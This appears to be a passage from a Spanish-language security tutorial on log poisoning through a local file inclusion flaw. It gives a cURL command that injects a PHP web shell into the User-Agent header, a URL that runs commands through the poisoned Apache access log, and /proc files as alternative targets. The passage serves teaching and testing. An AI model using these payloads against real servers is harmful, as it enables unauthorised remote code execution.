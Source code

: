 ### Envenenando con cURL

También podemos envenenar el log enviando una petición a través de cURL:

```bash
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

### Ejecutando Comandos

Como el log ahora contiene código PHP, la vulnerabilidad LFI ejecutará este código:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id
```

![Apache Log Execution](/assets/img/posts/log-poisoning/apache-log-execution.png)
_Ejecución exitosa de comandos a través del log envenenado de Apache_

---

## Otros Logs y Técnicas Alternativas

### Archivos /proc/ en Linux

El header User-Agent también se muestra en archivos de proceso bajo el directorio `/proc/` de Linux:

- `/proc/self/environ`
- `/proc/self/fd/N` (donde N es un PID usualmente entre 0-50)
